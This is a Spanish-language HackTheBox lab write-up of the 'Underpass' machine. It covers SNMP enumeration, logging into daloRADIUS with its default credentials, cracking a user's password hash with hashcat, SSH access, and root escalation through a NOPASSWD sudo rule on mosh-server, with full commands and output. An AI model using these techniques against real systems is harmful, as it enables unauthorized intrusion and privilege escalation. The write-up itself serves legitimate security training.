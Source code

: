 ```yaml
---
title: "Máquina Underpass"
description: "Resolución de la máquina Underpass de HackTheBox"
tags: ["SNMP", "daloRADIUS", "mosh"]
categories: ["HackTheBox", "Easy", "Linux"]
logo: "/assets/writeups/underpass/logo.webp"
---
```


Un servidor tiene un servicio SNMP expuesto que expone información de su servidor web Apache con una aplicación vulnerable. Abusaremos de esta y escalaremos privilegios abusando de un permiso sudoers.

## Reconocimiento

La máquina tiene dos puertos abiertos

```bash
# Nmap 7.95 scan initiated Sat Dec 21 15:01:05 2024 as: nmap -sS -Pn -p- --open -oN ports --min-rate 300 -vvv 10.129.41.19
Nmap scan report for 10.129.41.19
Host is up, received user-set (0.32s latency).
Scanned at 2024-12-21 15:01:05 -04 for 175s
Not shown: 61938 closed tcp ports (reset), 3595 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Dec 21 15:04:00 2024 -- 1 IP address (1 host up) scanned in 175.13 seconds
```

El servidor web se ve bastante desolado.

![Apache default page](/assets/writeups/underpass/1.png)

Por el puerto SSH no hay nada tampoco, sin embargo si escaneamos por UDP encontraremos el puerto SNMP abierto:

```bash
❯ nmap -sU -p 161 -vvv -n --min-rate 300 10.10.11.48
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-09 10:35 -04
Initiating Ping Scan at 10:35
Scanning 10.10.11.48 [4 ports]
Completed Ping Scan at 10:35, 0.09s elapsed (1 total hosts)
Initiating UDP Scan at 10:35
Scanning 10.10.11.48 [1 port]
Discovered open port 161/udp on 10.10.11.48
Completed UDP Scan at 10:35, 0.23s elapsed (1 total ports)
Nmap scan report for 10.10.11.48
Host is up, received echo-reply ttl 63 (0.083s latency).
Scanned at 2025-05-09 10:35:50 -04 for 0s

PORT    STATE SERVICE REASON
161/udp open  snmp    udp-response ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.39 seconds
           Raw packets sent: 6 (319B) | Rcvd: 2 (156B)
```

Con `snmpwalk` podremos ver el contenido del servicio. La única comunidad que parece existir es la típica `public` y nos da algo de información útil sobre la máquina:

```bash
❯ snmpwalk -v 2c -c public 10.10.11.48
SNMPv2-MIB::sysDescr.0 = STRING: Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
SNMPv2-MIB::sysObjectID.0 = OID: NET-SNMP-MIB::netSnmpAgentOIDs.10
DISMAN-EVENT-MIB::sysUpTimeInstance = Timeticks: (634390) 1:45:43.90
SNMPv2-MIB::sysContact.0 = STRING: steve@underpass.htb
SNMPv2-MIB::sysName.0 = STRING: UnDerPass.htb is the only daloradius server in the basin!
SNMPv2-MIB::sysLocation.0 = STRING: Nevada, U.S.A. but not Vegas
SNMPv2-MIB::sysServices.0 = INTEGER: 72
SNMPv2-MIB::sysORLastChange.0 = Timeticks: (4) 0:00:00.04
SNMPv2-MIB::sysORID.1 = OID: SNMP-FRAMEWORK-MIB::snmpFrameworkMIBCompliance
SNMPv2-MIB::sysORID.2 = OID: SNMP-MPD-MIB::snmpMPDCompliance
SNMPv2-MIB::sysORID.3 = OID: SNMP-USER-BASED-SM-MIB::usmMIBCompliance
SNMPv2-MIB::sysORID.4 = OID: SNMPv2-MIB::snmpMIB
SNMPv2-MIB::sysORID.5 = OID: SNMP-VIEW-BASED-ACM-MIB::vacmBasicGroup
SNMPv2-MIB::sysORID.6 = OID: TCP-MIB::tcpMIB
SNMPv2-MIB::sysORID.7 = OID: UDP-MIB::udpMIB
SNMPv2-MIB::sysORID.8 = OID: IP-MIB::ip
SNMPv2-MIB::sysORID.9 = OID: SNMP-NOTIFICATION-MIB::snmpNotifyFullCompliance
SNMPv2-MIB::sysORID.10 = OID: NOTIFICATION-LOG-MIB::notificationLogMIB
SNMPv2-MIB::sysORDescr.1 = STRING: The SNMP Management Architecture MIB.
SNMPv2-MIB::sysORDescr.2 = STRING: The MIB for Message Processing and Dispatching.
SNMPv2-MIB::sysORDescr.3 = STRING: The management information definitions for the SNMP User-based Security Model.
SNMPv2-MIB::sysORDescr.4 = STRING: The MIB module for SNMPv2 entities
... [snip]
```

Lo único que tiene de interesante es la línea "UnDerPass.htb is the only daloradius server in the basin!". [Daloradius](https://www.daloradius.com/) es un software para el manejo sencillo de servicios FreeRADIUS (Protocolo Remote Authentication Dial In User Service). Si de casualidad nos da por ver si existe una carpeta llamada `daloradius` en el servidor Apache que vimos antes veremos que:

```bash
❯ curl -v http://10.10.11.48/daloradius
*   Trying 10.10.11.48:80...
* Connected to 10.10.11.48 (10.10.11.48) port 80
* using HTTP/1.x
> GET /daloradius HTTP/1.1
> Host: 10.10.11.48
> User-Agent: curl/8.12.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 301 Moved Permanently
< Date: Fri, 09 May 2025 14:40:48 GMT
< Server: Apache/2.4.52 (Ubuntu)
< Location: http://10.10.11.48/daloradius/
< Content-Length: 315
< Content-Type: text/html; charset=iso-8859-1
< 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://10.10.11.48/daloradius/">here</a>.</p>
<hr>
<address>Apache/2.4.52 (Ubuntu) Server at 10.10.11.48 Port 80</address>
</body></html>
* Connection #0 to host 10.10.11.48 left intact
```

¡Existe! y si buscamos en el código fuente de dicha aplicación veremos que en la ruta `app/users/login.php` está el panel de inicio de sesión para usuarios:

![Login](/assets/writeups/underpass/2.png)

Veamos que hacemos por acá.

## Intrusión

El par de credenciales por defecto (administrator:radius) sirve en el panel de operadores ubicado en `app/operators/login.php`. Parece que no tiene mucha configuración.

![Panel](/assets/writeups/underpass/3.png)

En `Management -> Users -> List users` veremos un usuario llamado `svcMosh` y un hash que parece ser el de su contraseña.

![Mosh user](/assets/writeups/underpass/4.png)

La contraseña es débil:

```bash
❯ hashcat -m 900 hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --show
412dd4759978acfcc81deab01b382403:underwaterfriends
```

y sirve para acceder por ssh:

```bash
❯ /usr/bin/ssh svcMosh@10.10.11.48
svcMosh@10.10.11.48 password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

... [snip]

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sat Jan 11 13:29:47 2025 from 10.10.14.62
svcMosh@underpass:~$ 
```

En el directorio personal de este usuario encontraremos la primera flag.

```bash
svcMosh@underpass:~$ ls -la
total 36
drwxr-x--- 5 svcMosh svcMosh 4096 Jan 11 13:29 .
drwxr-xr-x 3 root    root    4096 Dec 11 16:06 ..
lrwxrwxrwx 1 root    root       9 Sep 22  2024 .bash_history -> /dev/null
-rw-r--r-- 1 svcMosh svcMosh  220 Sep  7  2024 .bash_logout
-rw-r--r-- 1 svcMosh svcMosh 3771 Sep  7  2024 .bashrc
drwx------ 2 svcMosh svcMosh 4096 Dec 11 16:06 .cache
drwxrwxr-x 3 svcMosh svcMosh 4096 Jan 11 13:29 .local
-rw-r--r-- 1 svcMosh svcMosh  807 Sep  7  2024 .profile
drwxr-xr-x 2 svcMosh svcMosh 4096 Dec 11 16:06 .ssh
-rw-r----- 1 root    svcMosh   33 May  9 12:52 user.txt
svcMosh@underpass:~$ cat user.txt
f414bb76a7fe538617fc0a6cfa******
```

## Escalada de privilegios

Podemos correr `mosh-server` como cualquier usuario:

```bash
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

Viendo el help del comando y buscando por internet que es lo que hace, ya nos pone los ojitos con estrellas:

```bash
svcMosh@underpass:~$ /usr/bin/mosh-server --help
Usage: /usr/bin/mosh-server new [-s] [-v] [-i LOCALADDR] [-p PORT[:PORT2]] [-c COLORS] [-l NAME=VALUE] [-- COMMAND...]
```

Parece que podemos crear un servidor mosh que se ejecute como root. Esto significa que al hacerlo y conectarnos a él técnicamente tendríamos privilegios de root.

Esto es sencillo de hacer. Simplemente vamos a utilizar el cliente de mosh que ya está instalado en la máquina y decirle que use el sudo para ejecutar el servidor de mosh cuando se conecte por SSH:

```bash
svcMosh@underpass:~$ mosh --server="sudo /usr/bin/mosh-server new -i 127.0.0.1" 127.0.0.1
```

Al hacerlo ya estaremos en una consola como root:

```bash
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri May  9 04:17:56 PM UTC 2025
... [snip]
root@underpass:~#
```

Con esto ya podemos tomar la última flag.

```bash
root@underpass:~# ls -la
total 44
drwx------  6 root root 4096 May  9 15:06 .
drwxr-xr-x 18 root root 4096 Dec 11 16:06 ..
lrwxrwxrwx  1 root root    9 Nov 30 10:39 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 Sep 22  2024 .cache
drwx------  3 root root 4096 Dec 11 13:40 .config
-rw-------  1 root root   20 Dec 19 12:42 .lesshst
drwxr-xr-x  3 root root 4096 Dec 11 16:06 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r-----  1 root root   33 May  9 15:06 root.txt
drwx------  2 root root 4096 Dec 11 16:06 .ssh
-rw-r--r--  1 root root  165 Dec 11 16:38 .wget-hsts
root@underpass:~# cat root.txt
39d1d3aec14fb343ec51052507******
```

## Extra

Esta es una de las primeras máquinas de dificultad fácil en la que el acesso inicial no es tan evidente. Me gustó mucho esa parte del SNMP y el servidor Apache ya que da las vibras de que estás contra un servidor random que te encontraste en internet.